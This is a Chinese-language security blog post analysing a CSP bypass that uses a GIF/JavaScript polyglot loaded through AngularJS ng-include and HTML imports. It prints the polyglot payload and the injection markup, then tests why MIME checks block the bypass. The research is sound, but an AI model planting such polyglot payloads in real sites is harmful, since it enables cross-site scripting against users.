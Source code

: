 title: gif bypass CSP?
date: 2016-04-20 19:48:33
tags:
- Blogs
- csp
categories:
- Blogs
---
前段时间看到了一个有趣的bypasscsp的文章，最开始是在html5sec上看到的
[http://html5sec.org/#138](http://html5sec.org/#138)
这里本来说的是关于link的import属性，但示例中却使用gif bypass了csp，研究了一下午，发现了一些有趣的东西。
<!--more-->

# 原文
首先是原文
[http://html5sec.org/cspbypass/](http://html5sec.org/cspbypass/)
我们看到作者的标题是**CSP Bypass in Chrome Canary + AngularJS**
并且如果你使用了chrome浏览器(值得注意的问题是这个demo只有chrome才会弹窗)，可以明显的看到有弹窗。

那么让我们来分析一下demo吧

## 原理
这个方式的原理来自于[http://www.slideshare.net/x00mario/jsmvcomfg-to-sternly-look-at-javascript-mvc-and-templating-frameworks/48](http://www.slideshare.net/x00mario/jsmvcomfg-to-sternly-look-at-javascript-mvc-and-templating-frameworks/48)

![](/img/ccsp/1.png)
首先通过上传带有信息的gif图片,让gif与站在同源环境下
```
GIF89ad=1/*d€!�,*/;alert(1)/*<script src="test.gif"></script>,dds剰┧�蹿嫵藜�嗏H栨墻晔额球L做嶇齄
嚹Ⅰ圠*椞	岼г娡j奋嬊洳鶎N於�
徦玺糊幭膑(8HXhx垬ǜ蓉桫iX;<link rel="import" href="test.gif" />*/
```
构造class=ng-include:"test.gif"来引用test.gif,angularjs会把gif的内容解析到页面内。
```
<span style="visibility:hidden" class="ng-include:'test.gif'"></span>
```
会变成
```
<span style="visibility:hidden" class="ng-include:'test.gif' ng-scope">

<span class="ng-scope">
GIF89ad=1/*d�������!�,*/;alert(1)/*
</span>
<script src="test.gif" class="ng-scope"></script>
<span class="ng-scope">,dds��������ڋ�޼���H�扦�ʶ���L��������
�Ģ��L*�̦�	�J�Ԫ���j�ܮ�������N�����
�������������(8HXhx��������iX;
</span>
<link rel="import" href="test.gif" class="ng-scope">
<span class="ng-scope">*/
</span>
</span>
```
我们能看到3个请求
![](/img/ccsp/2.png)
但是我们也能看到有部分被CSP拦了
![](/img/ccsp/3.png)
根据这个ppt中的解释来说，是`<link rel="import" href="test.gif" class="ng-scope">`加载了test.gif,我们看看这个link标签里面又是什么呢。
```
<html>
<head>
</head>
<body>
GIF89ad=1/*d�������!�,*/;alert(1)/*<script src="test.gif"></script>,dds��������ڋ�޼���H�扦�ʶ���L��������
�Ģ��L*�̦�	�J�Ԫ���j�ܮ�������N�����
�������������(8HXhx��������iX;<link rel="import" href="test.gif">*/</body>
</html>
```
![](/img/ccsp/4.png)
link中又加载了一次test.gif

这里成功执行了`<script src="test.gif"></script>`
成功弹窗。

## 真的就这么简单吗？
看上原理就如同所述的那样，但是在我的测试下实际情况和demo中有一切区别
[demo](http://html5sec.org/cspbypass/)
[我的测试环境](http://119.29.192.14/test.php)
我们发现一切都是熟悉的，但是原本的那条会导致弹窗的`<link>`出现了一条报错
```
Refused to execute script from 'http://119.29.192.14/test.gif' because its MIME type ('image/gif') is not executable.
```
查了一下发现这里的报错大多都是由于**X-Content-Type-Options**这个头造成的，他通过查看响应中的content-type是不是与预期相符判断的，这里传入的test.gif MIME type为image/gif，和预期的js不符，所以被拒绝了，具体可以看
[http://drops.wooyun.org/tips/1166](http://drops.wooyun.org/tips/1166)
[https://blogs.msdn.microsoft.com/ie/2008/07/02/ie8-security-part-v-comprehensive-protection/](https://blogs.msdn.microsoft.com/ie/2008/07/02/ie8-security-part-v-comprehensive-protection/)

但是我们很明显的发现，这个头属性并没有出现在response的请求头中，但事实就是这个属性应该是默认开启的，那么我们能修改图片respense的context-type属性?

我们可以看到在demo和我的测试环境中关于test.gif的请求明显是不同的的。
![](/img/ccsp/5.png)
![](/img/ccsp/6.png)

在请求头中我们明显看到有两个特殊的地方。
1、Content-Type
显示此HTTP请求提交的内容类型。一般只有post提交时才需要设置该属性。
[http://tool.oschina.net/commons](http://tool.oschina.net/commons)

2、Content-Location:test.gif.js
请求资源可替代的备用的另一地址
也就是如果test.gif没有请求到，那么久使用test.gif.js....那么这个设置到底是干嘛的...

### content-location:test.gif.js?
如果我们将script中的src改为test.gif.js，我们看到请求变了
![](/img/ccsp/7.png)

我们发现刚才的报错消失了，但这样一来，如果能够在同源环境下上传一个.js后缀，那么所谓的bypass csp也就没有意义了。

### content-type
在服务器的配置中，可以通过修改配置文件将.gif的默认context-type改为js，这样以来，所谓的.gif也就是一个.js了，从本质上来说并没有什么区别。

那么这个洞到底存不存在呢